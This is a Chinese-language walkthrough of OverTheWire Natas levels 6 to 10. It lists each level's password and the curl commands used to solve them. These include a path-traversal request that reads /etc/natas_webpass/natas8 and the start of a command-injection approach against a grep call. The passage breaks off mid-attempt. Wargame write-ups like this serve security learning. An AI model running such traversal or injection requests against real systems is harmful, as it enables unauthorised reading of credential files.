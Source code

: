 natas7: jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

查看index.php知道这里要通过POST提交数据，根据提示查看index.php源码：

`curl -u natas6:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR http://natas6.natas.labs.overthewire.org/index-source.html | htmlq -t | bat -l html`

不难看出`$secret`的值来自`includes/secret.inc`

`curl -u natas6:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR http://natas6.natas.labs.overthewire.org/includes/secret.inc | bat -l php`

最后POST，别忘了另一个input，也就是`submit`

`curl -u natas6:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR -X POST -d "secret=FOEIUWGHFEEUHOFUOIU&&submit=1" http://natas6.natas.labs.overthewire.org/index.php | htmlq 'body' | bat -l html`

## level 7 to 8

natas8: a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

`curl -u natas7:jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr http://natas7.natas.labs.overthewire.org/index.php\?page\=/etc/natas_webpass/natas8 | htmlq 'body' | bat -l html`

## level 8 to 9

natas9: Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

编解码问题，把`$encodedSecret`按`encodeSecret`函数逆着编码就能得到POST请求中secret字段的值

1. bin2hex函数 [link](https://www.php.net/manual/en/function.bin2hex.php)

把binary data(二进制数据) 转换为hex string representation(16进制字符串表示)

逆过来，hex string -> binary data (在计算机里表示为file)

用xxd -r命令，但是要加-p(-plain)选项，因为这里不是完整的hexdump文件

`xxd -r -p - bin`

输入$encodeSecret的值`3d3d516343746d4d6d6c315669563362`后按Ctrl+D发送EOF信号

2. [strrev](https://www.php.net/manual/en/function.strrev.php) 和 [base64_encode](https://www.php.net/manual/en/function.base64-encode.php) 函数

逆过来操作就是： 倒转字符串+base64解码

`rev bin | base64 -d` 得到secret为`oubWYf2kBq`

## level 9 to 10

natas10: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

[passthru](https://www.php.net/manual/en/function.passthru.php)函数就是执行外部命令然后显示输出。

首先看了一下dictionary.txt，没什么发现。

然后想起命令行是有注释的，所以可以[grep injection](https://en.wikipedia.org/wiki/SQL_injection)一下。

第一个试了当前文件夹：
